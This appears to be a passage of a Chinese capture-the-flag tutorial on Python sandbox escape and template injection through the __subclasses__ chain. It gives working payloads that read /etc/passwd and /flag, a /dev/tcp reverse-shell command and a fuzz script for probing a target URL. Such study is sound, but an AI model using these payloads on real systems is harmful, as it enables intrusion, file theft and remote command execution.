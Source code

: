 ```
object.__subclasses__()
```

找到重载过的`__init__`类

在获取初始化属性后，带wrapper的说明没有重载，寻找不带warpper的

也可以利用`.index()`去找`file`,`warnings.catch_warnings`

```
&gt;&gt;&gt; ''.__class__.__mro__[2].__subclasses__()[99].__init__
&lt;slot wrapper '__init__' of 'object' objects&gt;
&gt;&gt;&gt; ''.__class__.__mro__[2].__subclasses__()[59].__init__
&lt;unbound method WarningMessage.__init__&gt;
```

查看其引用`__builtins__`

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

这里会返回dict类型，寻找keys中可用函数，直接调用即可，使用keys中的file等函数来实现读取文件的功能

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

常用的目标函数有这么几个

```
file
subprocess.Popen
os.popen
exec
eval
```

常用的中间对象有这么几个

```
catch_warnings.__init__.func_globals.linecache.os.popen('bash -i &gt;&amp; /dev/tcp/127.0.0.1/233 0&gt;&amp;1')
lipsum.__globals__.__builtins__.open("/flag").read()
linecache.os.system('ls')
```

更多的可利用类可以通过遍历筛选的方式找到

比如对`subprocess.Popen`我们可以构造如下fuzz脚本

```
import requests

url = ""

index = 0
for i in range(100, 1000):
    #print i
    payload = "`{``{`''.__class__.__mro__[2].__subclasses__()[%d]`}``}`" % (i)
    params = `{`
        "search": payload
    `}`
    #print(params)
    req = requests.get(url,params=params)
    #print(req.text)
    if "subprocess.Popen" in req.text:
        index = i
        break


```